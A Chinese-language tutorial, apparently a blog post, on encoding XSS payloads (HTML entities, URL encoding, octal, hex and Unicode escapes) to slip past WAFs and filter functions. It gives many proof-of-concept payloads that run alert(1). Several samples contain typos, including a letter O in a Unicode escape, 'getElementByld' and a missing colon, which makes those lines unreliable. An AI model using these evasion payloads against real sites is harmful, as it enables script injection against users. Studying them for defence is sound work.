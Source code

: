 输出点处做编码最主要的目的是什么，为什么要去做编码？

最主要的目的就是绕WAF、过滤函数，通常在没有WAF和过滤函数的情况下，我们只需要使用原始字符，XSS攻击的一大精髓就是简短，利用少量代码达到攻击效果，编码往往会使exp的长度增加

输出在HTML中

Entity（实体）编码

概念：在编写HTML页面时，需要用到”<“、”>”、”空格” 等符号，直接输入这些符号时，会错误的把它们与标记混在一起，非常不利于编码。那么就需要把这些字符进行转义，以另一种方式书写，以相同的形式展现。在HTML中，这些字符可称为HTML Entity,即HTML字符实体。

编码范围：包括但不限于以下字符: ASCll Characters(可见部分).ISO 8859-1 Characters、lSO 8859-1 Symbols、Math Symbols、Greek Letters、 Miscellaneous HTML entities。

Entity（实体）编码 ————两种格式

格式一：&entityName
说明：”&”开头，”;”结尾，以语义的形式描述字符。如字符”<“，英文名称为”less than”，EntityName为”<“，取自”less than”2个单词的首字母。

格式二：&#entityNumber
说明：”&#”开头，”;”结尾，以编号的形式描述字符。此编号可以为十进制或十六进制(以”&#x”开头)等数字格式。

注：entityName的数量要小于entityNumber的数量

Entity（实体）编码 ————实例
源代码
Default
<h1>Entity编码</h1>
<p>entityName:</p>
&lt;<br>
&gt;<br>
&excl;<br>
&quot;<br>
&num;<br>
8amp ;<br>
<p>entityNumber:</p>
&#60;<br>
&#62;<br>
&#33;<br>
&#34;<br>
&#35;<br>
&#38;<br>
运行结果
Default
entityName:
>
<
!
"
#
&
entityNumber:
>
<
!
"
#
&

浏览器解析行为

行为1: HTML解析器在建立文档树的时候会针对节点内的Entity编码解码后传输。

等效语句:
Default
<img src="1" onerror="alert(1)">
 
通过entityNumber编码
<img src="1" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">

注意:属于标签本身结构的部分不会被解析
Default
<img src=1 onerror&#61;alert(1)>
这样会被解析
Default
<a href="javascript:alert(1)">click me</a>
 
<a href="j&#x61;vascript:alert(1)">click me</a>

行为2：允许在如之后插入任意多个0。

等效语句:
Default
<img src="1" onerror="alert(1)">
 
<img src="1"
 
onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
 
<img src="1"
onerror="&#00000000000000097;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">

行为3:针对URL类型的属性，允许进行一次URL编码。

注：URL类型的属性，通俗理解就是链接的属性
等效语句:
Default
<a href="javascript:alert(1)">click me</a>
 
<a href="j&#x61;vascript:alert(1)">click me</a>
 
<a href="j&#x61;vascript:%61%6c%65%72%74%28%31%29">click me</a>

行为4：URL编码的部分可以进行第二次Entity编码。注：不无限套娃

等效语句:
Default
<a href="javascriptalert(1)">click me</a>
<a href="j&#x61;vascript:alert(1)">click me</a>
<a href="j&#x61;vascript:%61%6c%65%72%74%28%31%29">click me</a>
<a href="j&#x61;vascript:&#37;&#54;&#49;&#37;&#54;&#99;&#37;&#54;&#53;&#37;&#55;&#50;&#37;&#55;&#52;&#37;&#50;&#56;&#37;&#51;&#49;&#37;&#50;&#57;">click me</a>

行为5：URI类型的属性忽略Tab和回车符。

等效语句:
Default
<a href="javascript:alert(1)"> click me</a>
<a href="j&#x61;vascript:&#37;&#54;&#49;&#37;&#54;&#99;&#37;&#54;&#53;&#37;&#55;&#50;&#37;&#55;&#52;&#37;&#50;&#56;&#37;&#51;&#49;&#37;&#50;&#57;">click me</a>

注：Tab符和回车符也可以再进行一次Entity编码

行为6: Entity编码的;可以去除。

等效语句:
Default
<a href="javascriptalert(1)">click me</a>
<a href="j&#x61vascript:&#37&#54&#49&#37&#54&#99&#37&#54&#53&#37&#55&#50&#37&#55&#52&#37&#50&#56&#37&#51&#49&#37&#50&#57">click me</a>

注：不同格式的Entity编码可以混用

四种编码策略

C语言编码：对于一些控制字符，使用特殊的C类型的转义风格（例如\n和\r)，公认的ECMAScript编码。
八进制编码:三个八进制数字，例如”e”编码为”\145″，该语法不属于ECMAScript,但是基本所有的浏览器都支持。
十六进制编码：两个十六进制数字，例如”e”编码为”\x65”，同样不属于ECMAScript，但是在解析底层，c语言中有很好的支持。
Unicode编码：如\u0065可表示字符e，属于ECMAScript编码。

注：ECMAScrip是Javascript的一个标准
例：
Default
<script>
document.getElementByld("a").\u0069\u006e\uO06e\u0065\u0072\u0048\u0054\u004d\u004c="\x3c\151\155\147\40\163\162\143\75\61\40\157\156\145\162\162\157\162\75\141\154\145\162\164\50\61\51\u003e";
</script>

前三种只能用于给字符串编码。
第四种还可以用来给方法名编码
不可以代替括号，引号，点号等特殊字符
Default
<script>
\u0061lert("test");
</script>

常见误区
误区1: XSS，不是专门去”绕过”限制。误区2: XSS，不仅仅存在于你所看得见的位置。误区3: XSS，绕过限制不是乱用字符去绕过，切忌盲目。

总结

在刚接触XSS的时候，需要做的是了解其中的原理与编码方式，自己构造的语句中哪里可以在此基础上进行编码的构造，掌握了XSS编码的基础，在之后的学习中可以更好的理解别人构造的攻击载荷，而不是盲目的瞎改，导致语句无法解析不能绕过防护。